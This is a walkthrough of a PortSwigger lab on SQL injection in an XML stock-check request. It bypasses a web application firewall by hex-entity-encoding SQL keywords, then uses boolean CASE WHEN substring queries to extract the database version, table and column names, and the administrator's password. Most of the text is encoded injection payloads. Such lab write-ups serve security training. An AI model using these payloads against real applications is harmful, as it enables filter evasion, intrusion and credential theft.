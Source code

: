 
# SQL injection with filter bypass via XML encoding

This lab contains a SQL injection vulnerability in its stock check feature. The results from the query are returned in the application's response, so you can use a UNION attack to retrieve data from other tables.

The database contains a users table, which contains the usernames and passwords of registered users. To solve the lab, perform a SQL injection attack to retrieve the admin user's credentials, then log in to their account.

Hint: A web application firewall (WAF) will block requests that contain obvious signs of a SQL injection attack. You'll need to find a way to obfuscate your malicious query to bypass this filter. We recommend using the Hackvertor extension to do this.

---------------------------------------------

References: 

- https://portswigger.net/web-security/sql-injection

- https://portswigger.net/web-security/sql-injection/cheat-sheet



![img](images/SQL%20injection%20with%20filter%20bypass%20via%20XML%20encoding/1.png)

---------------------------------------------


The following payload allows to execute (SELECT 1), which returns the same as sending productId 1 and storeId 1:

```
<?xml version="1.0" encoding="UTF-8"?>
<stockCheck>
	<productId>
		(&#x53;ELECT 1)
	</productId>
	<storeId>
		(&#x53;ELECT 1)
	</storeId>
</stockCheck>
```





![img](images/SQL%20injection%20with%20filter%20bypass%20via%20XML%20encoding/2.png)
![img](images/SQL%20injection%20with%20filter%20bypass%20via%20XML%20encoding/3.png)

We can encode it to HTML with Burp to avoid detection. The whole query “(SELECT 1)” HTML-encoded is:

```
(&#x53;&#x45;&#x4c;&#x45;&#x43;&#x54;&#x20;&#x31;)
```


Next we see this query works:

```
SELECT CASE WHEN (1=1) THEN 1 ELSE 2 END
```

```
<productId>
(&#x53;&#x45;&#x4c;&#x45;&#x43;&#x54;&#x20;&#x43;&#x41;&#x53;&#x45;&#x20;&#x57;&#x48;&#x45;&#x4e;&#x20;&#x28;&#x31;&#x3d;&#x31;&#x29;&#x20;&#x54;&#x48;&#x45;&#x4e;&#x20;&#x31;&#x20;&#x45;&#x4c;&#x53;&#x45;&#x20;&#x32;&#x20;&#x45;&#x4e;&#x44;&#x0a;)
</productId>
```



![img](images/SQL%20injection%20with%20filter%20bypass%20via%20XML%20encoding/4.png)

Next I will retrieve the version:

```
SELECT CASE WHEN (substring((SELECT version()),1,1)='a') THEN 1 ELSE 2 END
```

I sent it to Intruder and added delay between requests:



![img](images/SQL%20injection%20with%20filter%20bypass%20via%20XML%20encoding/5.png)

The version starts with "P":



![img](images/SQL%20injection%20with%20filter%20bypass%20via%20XML%20encoding/6.png)

Then “o”:



![img](images/SQL%20injection%20with%20filter%20bypass%20via%20XML%20encoding/7.png)

It start with "PostgreSQL":

```
SELECT CASE WHEN (substring((SELECT version()),1,10)='PostgreSQL') THEN 1 ELSE 2 END
```

```
(&#x53;&#x45;&#x4c;&#x45;&#x43;&#x54;&#x20;&#x43;&#x41;&#x53;&#x45;&#x20;&#x57;&#x48;&#x45;&#x4e;&#x20;&#x28;&#x73;&#x75;&#x62;&#x73;&#x74;&#x72;&#x69;&#x6e;&#x67;&#x28;&#x28;&#x53;&#x45;&#x4c;&#x45;&#x43;&#x54;&#x20;&#x76;&#x65;&#x72;&#x73;&#x69;&#x6f;&#x6e;&#x28;&#x29;&#x29;&#x2c;&#x31;&#x2c;&#x31;&#x30;&#x29;&#x3d;&#x27;&#x50;&#x6f;&#x73;&#x74;&#x67;&#x72;&#x65;&#x53;&#x51;&#x4c;&#x27;&#x29;&#x20;&#x54;&#x48;&#x45;&#x4e;&#x20;&#x31;&#x20;&#x45;&#x4c;&#x53;&#x45;&#x20;&#x32;&#x20;&#x45;&#x4e;&#x44;)
```



![img](images/SQL%20injection%20with%20filter%20bypass%20via%20XML%20encoding/8.png)

```
SELECT CASE WHEN (substring((SELECT table_name FROM information_schema.tables limit 1),1,5)='users') THEN 1 ELSE 2 END
```

```
(&#x53;&#x45;&#x4c;&#x45;&#x43;&#x54;&#x20;&#x43;&#x41;&#x53;&#x45;&#x20;&#x57;&#x48;&#x45;&#x4e;&#x20;&#x28;&#x73;&#x75;&#x62;&#x73;&#x74;&#x72;&#x69;&#x6e;&#x67;&#x28;&#x28;&#x53;&#x45;&#x4c;&#x45;&#x43;&#x54;&#x20;&#x74;&#x61;&#x62;&#x6c;&#x65;&#x5f;&#x6e;&#x61;&#x6d;&#x65;&#x20;&#x46;&#x52;&#x4f;&#x4d;&#x20;&#x69;&#x6e;&#x66;&#x6f;&#x72;&#x6d;&#x61;&#x74;&#x69;&#x6f;&#x6e;&#x5f;&#x73;&#x63;&#x68;&#x65;&#x6d;&#x61;&#x2e;&#x74;&#x61;&#x62;&#x6c;&#x65;&#x73;&#x20;&#x6c;&#x69;&#x6d;&#x69;&#x74;&#x20;&#x31;&#x29;&#x2c;&#x31;&#x2c;&#x35;&#x29;&#x3d;&#x27;&#x75;&#x73;&#x65;&#x72;&#x73;&#x27;&#x29;&#x20;&#x54;&#x48;&#x45;&#x4e;&#x20;&#x31;&#x20;&#x45;&#x4c;&#x53;&#x45;&#x20;&#x32;&#x20;&#x45;&#x4e;&#x44;)
```

It returns the same as sending the value 1 (the lab restarted so it is now 370, not 356) so the table "users" exists:



![img](images/SQL%20injection%20with%20filter%20bypass%20via%20XML%20encoding/9.png)

Then we will try to find the fits column name from “users” table with:

```
SELECT CASE WHEN (substring((SELECT column_name FROM information_schema.columns where table_name = 'users' limit 1),1,1)='a') THEN 1 ELSE 2 END
```

```
(&#x53;&#x45;&#x4c;&#x45;&#x43;&#x54;&#x20;&#x43;&#x41;&#x53;&#x45;&#x20;&#x57;&#x48;&#x45;&#x4e;&#x20;&#x28;&#x73;&#x75;&#x62;&#x73;&#x74;&#x72;&#x69;&#x6e;&#x67;&#x28;&#x28;&#x53;&#x45;&#x4c;&#x45;&#x43;&#x54;&#x20;&#x63;&#x6f;&#x6c;&#x75;&#x6d;&#x6e;&#x5f;&#x6e;&#x61;&#x6d;&#x65;&#x20;&#x46;&#x52;&#x4f;&#x4d;&#x20;&#x69;&#x6e;&#x66;&#x6f;&#x72;&#x6d;&#x61;&#x74;&#x69;&#x6f;&#x6e;&#x5f;&#x73;&#x63;&#x68;&#x65;&#x6d;&#x61;&#x2e;&#x63;&#x6f;&#x6c;&#x75;&#x6d;&#x6e;&#x73;&#x20;&#x77;&#x68;&#x65;&#x72;&#x65;&#x20;&#x74;&#x61;&#x62;&#x6c;&#x65;&#x5f;&#x6e;&#x61;&#x6d;&#x65;&#x20;&#x3d;&#x20;&#x27;&#x75;&#x73;&#x65;&#x72;&#x73;&#x27;&#x20;&#x6c;&#x69;&#x6d;&#x69;&#x74;&#x20;&#x31;&#x29;&#x2c;&#x31;&#x2c;&#x31;&#x29;&#x3d;&#x27;AAAAAAAA&#x27;&#x29;&#x20;&#x54;&#x48;&#x45;&#x4e;&#x20;&#x31;&#x20;&#x45;&#x4c;&#x53;&#x45;&#x20;&#x32;&#x20;&#x45;&#x4e;&#x44;)
```

We get the same response as sending 1 with the character “u”, so it starts with u and it probably starts with "user":



![img](images/SQL%20injection%20with%20filter%20bypass%20via%20XML%20encoding/10.png)

It seems it starts with "user":

```
SELECT CASE WHEN (substring((SELECT column_name FROM information_schema.columns where table_name = 'users' limit 1),1,4)='user') THEN 1 ELSE 2 END
```

```
&#x53;&#x45;&#x4c;&#x45;&#x43;&#x54;&#x20;&#x43;&#x41;&#x53;&#x45;&#x20;&#x57;&#x48;&#x45;&#x4e;&#x20;&#x28;&#x73;&#x75;&#x62;&#x73;&#x74;&#x72;&#x69;&#x6e;&#x67;&#x28;&#x28;&#x53;&#x45;&#x4c;&#x45;&#x43;&#x54;&#x20;&#x63;&#x6f;&#x6c;&#x75;&#x6d;&#x6e;&#x5f;&#x6e;&#x61;&#x6d;&#x65;&#x20;&#x46;&#x52;&#x4f;&#x4d;&#x20;&#x69;&#x6e;&#x66;&#x6f;&#x72;&#x6d;&#x61;&#x74;&#x69;&#x6f;&#x6e;&#x5f;&#x73;&#x63;&#x68;&#x65;&#x6d;&#x61;&#x2e;&#x63;&#x6f;&#x6c;&#x75;&#x6d;&#x6e;&#x73;&#x20;&#x77;&#x68;&#x65;&#x72;&#x65;&#x20;&#x74;&#x61;&#x62;&#x6c;&#x65;&#x5f;&#x6e;&#x61;&#x6d;&#x65;&#x20;&#x3d;&#x20;&#x27;&#x75;&#x73;&#x65;&#x72;&#x73;&#x27;&#x20;&#x6c;&#x69;&#x6d;&#x69;&#x74;&#x20;&#x31;&#x29;&#x2c;&#x31;&#x2c;&#x34;&#x29;&#x3d;&#x27;&#x75;&#x73;&#x65;&#x72;&#x27;&#x29;&#x20;&#x54;&#x48;&#x45;&#x4e;&#x20;&#x31;&#x20;&#x45;&#x4c;&#x53;&#x45;&#x20;&#x32;&#x20;&#x45;&#x4e;&#x44;
```



![img](images/SQL%20injection%20with%20filter%20bypass%20via%20XML%20encoding/11.png)

We send this to repeater and find the next letter is “n”, so it may be “username”:

```
SELECT CASE WHEN (substring((SELECT column_name FROM information_schema.columns where table_name = 'users' limit 1),1,5)='userZ') THEN 1 ELSE 2 END
```



![img](images/SQL%20injection%20with%20filter%20bypass%20via%20XML%20encoding/12.png)

Then check the first column name starts with “username”:

```
SELECT CASE WHEN (substring((SELECT column_name FROM information_schema.columns where table_name = 'users' limit 1),1,8)='username') THEN 1 ELSE 2 END
```

```
&#x53;&#x45;&#x4c;&#x45;&#x43;&#x54;&#x20;&#x43;&#x41;&#x53;&#x45;&#x20;&#x57;&#x48;&#x45;&#x4e;&#x20;&#x28;&#x73;&#x75;&#x62;&#x73;&#x74;&#x72;&#x69;&#x6e;&#x67;&#x28;&#x28;&#x53;&#x45;&#x4c;&#x45;&#x43;&#x54;&#x20;&#x63;&#x6f;&#x6c;&#x75;&#x6d;&#x6e;&#x5f;&#x6e;&#x61;&#x6d;&#x65;&#x20;&#x46;&#x52;&#x4f;&#x4d;&#x20;&#x69;&#x6e;&#x66;&#x6f;&#x72;&#x6d;&#x61;&#x74;&#x69;&#x6f;&#x6e;&#x5f;&#x73;&#x63;&#x68;&#x65;&#x6d;&#x61;&#x2e;&#x63;&#x6f;&#x6c;&#x75;&#x6d;&#x6e;&#x73;&#x20;&#x77;&#x68;&#x65;&#x72;&#x65;&#x20;&#x74;&#x61;&#x62;&#x6c;&#x65;&#x5f;&#x6e;&#x61;&#x6d;&#x65;&#x20;&#x3d;&#x20;&#x27;&#x75;&#x73;&#x65;&#x72;&#x73;&#x27;&#x20;&#x6c;&#x69;&#x6d;&#x69;&#x74;&#x20;&#x31;&#x29;&#x2c;&#x31;&#x2c;&#x38;&#x29;&#x3d;&#x27;&#x75;&#x73;&#x65;&#x72;&#x6e;&#x61;&#x6d;&#x65;&#x27;&#x29;&#x20;&#x54;&#x48;&#x45;&#x4e;&#x20;&#x31;&#x20;&#x45;&#x4c;&#x53;&#x45;&#x20;&#x32;&#x20;&#x45;&#x4e;&#x44;
```



![img](images/SQL%20injection%20with%20filter%20bypass%20via%20XML%20encoding/13.png)

Then we send to Intruder:

```
SELECT CASE WHEN (substring((SELECT column_name FROM information_schema.columns where table_name = 'users' limit 1),1,9)='usernameZ') THEN 1 ELSE 2 END
```

But it seems there are not more characters in this column name, it is “username”.



![img](images/SQL%20injection%20with%20filter%20bypass%20via%20XML%20encoding/14.png)

Next we will find if the second column starts with password:

```
SELECT CASE WHEN (substring((SELECT column_name FROM information_schema.columns where table_name = 'users' and column_name!='username' limit 1),1,8)='password') THEN 1 ELSE 2 END
```

```
&#x53;&#x45;&#x4c;&#x45;&#x43;&#x54;&#x20;&#x43;&#x41;&#x53;&#x45;&#x20;&#x57;&#x48;&#x45;&#x4e;&#x20;&#x28;&#x73;&#x75;&#x62;&#x73;&#x74;&#x72;&#x69;&#x6e;&#x67;&#x28;&#x28;&#x53;&#x45;&#x4c;&#x45;&#x43;&#x54;&#x20;&#x63;&#x6f;&#x6c;&#x75;&#x6d;&#x6e;&#x5f;&#x6e;&#x61;&#x6d;&#x65;&#x20;&#x46;&#x52;&#x4f;&#x4d;&#x20;&#x69;&#x6e;&#x66;&#x6f;&#x72;&#x6d;&#x61;&#x74;&#x69;&#x6f;&#x6e;&#x5f;&#x73;&#x63;&#x68;&#x65;&#x6d;&#x61;&#x2e;&#x63;&#x6f;&#x6c;&#x75;&#x6d;&#x6e;&#x73;&#x20;&#x77;&#x68;&#x65;&#x72;&#x65;&#x20;&#x74;&#x61;&#x62;&#x6c;&#x65;&#x5f;&#x6e;&#x61;&#x6d;&#x65;&#x20;&#x3d;&#x20;&#x27;&#x75;&#x73;&#x65;&#x72;&#x73;&#x27;&#x20;&#x61;&#x6e;&#x64;&#x20;&#x63;&#x6f;&#x6c;&#x75;&#x6d;&#x6e;&#x5f;&#x6e;&#x61;&#x6d;&#x65;&#x21;&#x3d;&#x27;&#x75;&#x73;&#x65;&#x72;&#x6e;&#x61;&#x6d;&#x65;&#x27;&#x20;&#x6c;&#x69;&#x6d;&#x69;&#x74;&#x20;&#x31;&#x29;&#x2c;&#x31;&#x2c;&#x38;&#x29;&#x3d;&#x27;&#x70;&#x61;&#x73;&#x73;&#x77;&#x6f;&#x72;&#x64;&#x27;&#x29;&#x20;&#x54;&#x48;&#x45;&#x4e;&#x20;&#x31;&#x20;&#x45;&#x4c;&#x53;&#x45;&#x20;&#x32;&#x20;&#x45;&#x4e;&#x44;
```

It seems to be correct:



![img](images/SQL%20injection%20with%20filter%20bypass%20via%20XML%20encoding/15.png)

We will try to get the first character of the password with:

```
SELECT CASE WHEN (substring((SELECT password FROM users where username = 'administrator'),1,1)='a') THEN 1 ELSE 2 END
```


```
&#x53;&#x45;&#x4c;&#x45;&#x43;&#x54;&#x20;&#x43;&#x41;&#x53;&#x45;&#x20;&#x57;&#x48;&#x45;&#x4e;&#x20;&#x28;&#x73;&#x75;&#x62;&#x73;&#x74;&#x72;&#x69;&#x6e;&#x67;&#x28;&#x28;&#x53;&#x45;&#x4c;&#x45;&#x43;&#x54;&#x20;&#x70;&#x61;&#x73;&#x73;&#x77;&#x6f;&#x72;&#x64;&#x20;&#x46;&#x52;&#x4f;&#x4d;&#x20;&#x75;&#x73;&#x65;&#x72;&#x73;&#x20;&#x77;&#x68;&#x65;&#x72;&#x65;&#x20;&#x75;&#x73;&#x65;&#x72;&#x6e;&#x61;&#x6d;&#x65;&#x20;&#x3d;&#x20;&#x27;&#x61;&#x64;&#x6d;&#x69;&#x6e;&#x69;&#x73;&#x74;&#x72;&#x61;&#x74;&#x6f;&#x72;&#x27;&#x29;&#x2c;&#x31;&#x2c;&#x31;&#x29;&#x3d;&#x27;ZZZZZZZZZZ&#x27;&#x29;&#x20;&#x54;&#x48;&#x45;&#x4e;&#x20;&#x31;&#x20;&#x45;&#x4c;&#x53;&#x45;&#x20;&#x32;&#x20;&#x45;&#x4e;&#x44;
```

It starts with “h”:



![img](images/SQL%20injection%20with%20filter%20bypass%20via%20XML%20encoding/16.png)

Finally I got the administrator's password:



![img](images/SQL%20injection%20with%20filter%20bypass%20via%20XML%20encoding/17.png)